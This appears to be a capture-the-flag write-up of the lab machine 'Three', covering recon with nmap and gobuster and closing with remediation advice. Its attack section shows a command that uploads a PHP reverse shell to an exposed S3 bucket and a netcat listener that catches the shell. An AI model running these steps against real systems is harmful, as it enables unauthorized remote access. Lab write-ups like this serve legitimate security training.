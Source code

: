 ## General Information
- Machine: Three
- Difficulty: Very easy
- OS: Linux
- Date: 15/03/2023


## Methodology
- Reconnaissance: 
    - Identification of the target machine's IP address, open ports, and services.
    - Gathering information from the website running on port 80, including contact details and the hostname. Performing DNS enumeration to identify subdomains. Identifying IP addresses associated with the hostnames.
- Exploration:
    - Upload of a PHP reverse shell to the S3 bucket. Establishment of a reverse shell connection with the target machine.
- Results Analysis:
    - Documentation of findings, identification of vulnerabilities, and recommendations for remediation.


## Results
During the reconnaissance phase, the IP address, open ports, and services of the target machine were identified. The website on port 80 provided contact information and revealed the hostname s3.thetoppers.htb. Further enumeration led to the discovery of the S3 bucket named thetoppers.htb, containing index.php and .ht files.  

In the exploration phase, a PHP reverse shell was uploaded to the S3 bucket, allowing a successful reverse shell connection to the target machine. Through this connection, further exploration was conducted, leading to the discovery of the flag at /var/www/flag.txt.

### Reconnaissance
- IP: 10.129.29.185
- Port Scan results:

| Port   | State | Service | Version         |
|--------|-------|---------|-----------------|   
| 22/tcp | open  | ssh     | OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open  | http    | Apache httpd 2.4.29 ((Ubuntu)) |

### Commands and analyzes used

#### Nmap
~~~nmap
sudo nmap -sVC -p- -T4 -Pn --open -O 10.129.29.185 -oA ./service_scan_port
~~~

#### Enumeration of web page content.
~~~Enumeration
http://10.129.29.185/

- CONTACT:
    Chicago, US
    Phone: +01 343 123 6102
    Email: mail@thetoppers.htb
~~~

#### hostnames to IP addresses
~~~hostnames to IP addresses
/etc/host
    10.129.29.185 thetoppers.htb s3.thetoppers.htb
~~~

#### gobuster
~~~ gobuster
gobuster vhost -u http://thetoppers.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
~~~

#### AWS(CLI)
~~~ AWS
aws s3 --endpoint-url=http://s3.thetoppers.htb --color=on  cp php-reverse-shell.php s3://thetoppers.htb   
~~~

#### Netcat
~~~ Netcat
sudo nc -lvnp 443  
~~~


## Recommendations
- Enhance access permissions and policies, preventing public access to sensitive files. Encrypt the stored data for additional security.
- Deploy a monitoring system to detect suspicious activity and unauthorized access attempts. Regularly review logs and set up alerts for potential security breaches.
- Implement rigorous filters and validations to block malicious file uploads. Validate content and filter file types to allow only safe and trusted files in the bucket.